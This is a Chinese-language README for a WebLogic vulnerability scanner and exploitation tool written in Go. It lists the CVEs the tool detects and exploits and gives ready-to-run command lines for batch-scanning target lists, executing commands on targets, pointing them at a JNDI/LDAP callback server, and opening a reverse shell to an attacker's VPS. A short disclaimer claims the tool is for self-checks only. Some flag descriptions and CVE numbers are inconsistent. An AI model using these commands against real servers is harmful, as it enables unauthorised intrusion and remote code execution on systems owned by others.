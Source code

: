 # 👻WeblogicScan.go

只是好好的集成了一下，方便和我一样的懒人。

目前可检测的POC

```go
CVE-2014-4210
CVE-2016-0638
CVE-2016-3510
CVE-2017-10271
CVE-2017-3248
CVE-2017-3506
CVE-2018-2628
CVE-2018-2893
CVE-2018-2894
cve-2018-3191
cve-2018-3245
cve-2018-3252
CVE-2019-2725
CVE-2019-2729
CVE-2019-2890
cve-2020-2551
cve-2020-2555
cve-2020-2883
cve-2020-14750
cve-2020-14882
cve-2020-14883
cve-2023-21839
```

目前可利用的EXP

```go
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2628
CVE-2018-2893
CVE-2020-14882
cve-2020-2555
cve-2020-2883
cve-2023-21839
```

# 🐳使用示例

```md
-u url
  you target, example: 127.0.0.1
-p Port
  you target Port, example: "whoami"
-e EXP
  Exploitation alone, example: ""
-l ldap
  ldap server, example: "ldap://127.0.0.1/#eval"
-ri rip
  reverse ip
-rp rport
  reverse port
-f targets.txt
Read the target from the file and test the vulnerabilities in batches
```

+ POC一键检测
```go
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval
```

+ 批量检测

TXT文件中，一个目标（127.0.0.1:7001，如果没有自带端口则添加默认端口7001）放一行。

```go
WeblogicScanner.exe -f "C:\Users\Test\Desktop\target.txt" -l ldap://127.0.0.1/#eval
```

+ EXP单个利用，指定EXP末尾数字即可
```go
//CVE-2023-21839
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval -e 21839

//cve-2020-2883
//cve-2020-2555
//cve-2016-0638
//cve-2016-0315
//cve-2017-3248
//cve-2018-2628
//cve-2018-2893
//cve-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c calc.exe -e 2883

//cve-2020-2889
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c -ri <vps_ip> -rp <VPS_PORT> -e 2889
```

# 👮免责声明

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

# 📷参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/rabbitmask/WeblogicScan

https://github.com/4ra1n/CVE-2023-21839
